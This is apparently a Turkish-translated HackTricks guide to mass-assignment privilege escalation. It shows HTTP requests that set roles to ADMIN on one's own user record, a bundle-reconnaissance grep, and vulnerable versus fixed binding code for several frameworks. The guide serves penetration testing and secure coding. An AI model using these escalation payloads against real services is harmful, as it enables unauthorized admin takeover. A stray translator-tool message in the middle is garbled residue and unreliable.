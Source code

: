 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

{{#include ../banners/hacktricks-training.md}}

Mass assignment (a.k.a. insecure object binding) oluşur; bir API/controller kullanıcı tarafından sağlanan JSON'u alıp, alanların açıkça allow-list ile sınırlandırılmadığı durumda doğrudan sunucu tarafı model/entity'ye bind ettiğinde. Eğer roles, isAdmin, status veya ownership gibi ayrıcalıklı özellikler bind edilebiliyorsa, herhangi bir authenticated kullanıcı ayrıcalık yükseltme veya korumalı durumu manipüle etme imkanına sahip olur.

Bu, genellikle roles=ADMIN gibi değerler ayarlanarak vertical privilege escalation sağlayan bir Broken Access Control issue'sudur (OWASP A01:2021). Otomatik olarak request body'lerini data modellere bağlayan framework'leri sıkça etkiler (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, vb.).

## 1) Mass Assignment'ı Bulma

Kendi profilinizi veya benzer kaynakları güncelleyen self-service endpoint'lere bakın:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Mass assignment olduğunu işaret eden heuristikler:
- Response, siz göndermeseniz bile server-tarafı tarafından yönetilen alanları (ör. roles, status, isAdmin, permissions) echo ediyor.
- Client bundle'larında uygulama genelinde kullanılan role isimleri/ID'leri veya diğer ayrıcalıklı attribute isimleri (admin, staff, moderator, internal flags) bulunuyor; bu bind edilebilir bir şema olduğuna işaret eder.
- Backend serializer'lar bilinmeyen alanları reddetmeden kabul ediyor.

Hızlı test akışı:
1) Sadece güvenli alanlarla normal bir güncelleme yapın ve tüm JSON response yapısını gözlemleyin (this leaks the schema).
2) Body'ye özel olarak hazırlanmış bir ayrıcalıklı alan ekleyerek güncellemeyi tekrarlayın. Eğer response değişikliği koruyorsa, büyük olasılıkla mass assignment mevcut. 

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry"
}
```
Yanıt ayrıcalıklı alanlara işaret ediyor:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": null,
"status": "ACTIVATED",
"filters": []
}
```
## 2) Exploitation – Role Escalation via Mass Assignment

Bağlanabilir şekli öğrendikten sonra, ayrıcalıklı özelliği aynı isteğe ekleyin.

Örnek: set roles to ADMIN on your own user resource:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": [
{ "id": 1, "description": "ADMIN role", "name": "ADMIN" }
]
}
```
Eğer yanıt rol değişikliğini koruyorsa, uygulama admin-context oturumu oluşturup ayrıcalıklı UI/endpoints'i gösterecek şekilde tokens/claims'i yeniden doğrulayın veya yenileyin.

Notlar
- Rol tanımlayıcıları ve yapıları genellikle client JS bundle veya API dokümanlarından sıralanır. "roles", "ADMIN", "STAFF" veya sayısal rol ID'leri gibi dizeleri arayın.
- Eğer tokens içinde claims varsa (ör. JWT roles), yeni ayrıcalıkların uygulanması genellikle logout/login veya token refresh gerektirir.


## 3) Client Bundle Recon — Şema ve Rol ID'leri için

- Minified JS bundle'ları role strings ve model names için inceleyin; source maps DTO shapes'i ortaya çıkarabilir.
- roles, permissions veya feature flags içeren arrays/maps arayın. Tam property names ve nesting ile eşleşen payloads oluşturun.
- Tipik göstergeler: role name constants, dropdown option lists, validation schemas.

İndirilen bir bundle üzerinde kullanışlı grep komutları:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```
## 4) Çerçeve Tuzakları ve Güvenli Desenler

Bu zafiyet, framework'lerin req.body'yi doğrudan kalıcı varlıklara bağlaması durumunda ortaya çıkar. Aşağıda yaygın hatalar ve en basit, güvenli desenler yer almaktadır.

**Node.js (Express + Mongoose)**

Güvenli olmayan:
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
res.json(user);
});
```
Çeviriyi düzeltmemi istiyorsunuz ancak kaynak içerik sağlanmamış. Lütfen src/pentesting-web/mass-assignment-cwe-915.md dosya içeriğini veya düzeltmemi istediğiniz kısmı gönderin.
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```
**Ruby on Rails**

Zafiyetli (strong parameters yok):
```rb
def update
@user.update(params[:user]) # roles/is_admin can be set by client
end
```
Düzeltme (strong params + ayrıcalıklı alan yok):
```rb
def user_params
params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```
**Laravel (Eloquent)**

Etkilenebilir:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
Düzeltme:
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```
**Spring Boot (Jackson)**

Güvenli olmayan desen:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Düzeltme: Yalnızca izin verilen alanları içeren bir DTO'ya eşle ve yetkilendirmeyi zorunlu kıl:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Daha sonra izin verilen alanları DTO'dan sunucu tarafında entity'ye kopyalayın ve rol değişikliklerini yalnızca RBAC kontrollerinden sonra admin-only handler'larda işleyin. Gerekirse ayrıcalıklı alanlarda @JsonIgnore kullanın ve bilinmeyen özellikleri reddedin.

Go (encoding/json)
- Ayrıcalıklı alanların json:"-" kullandığından emin olun ve yalnızca izin verilen alanları içeren bir DTO struct ile doğrulayın.
- decoder.DisallowUnknownFields() ve bağlama sonrası invariant doğrulamalarını (self-service yollarında roller değişemez) dikkate alın.

## References

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)

{{#include ../banners/hacktricks-training.md}}
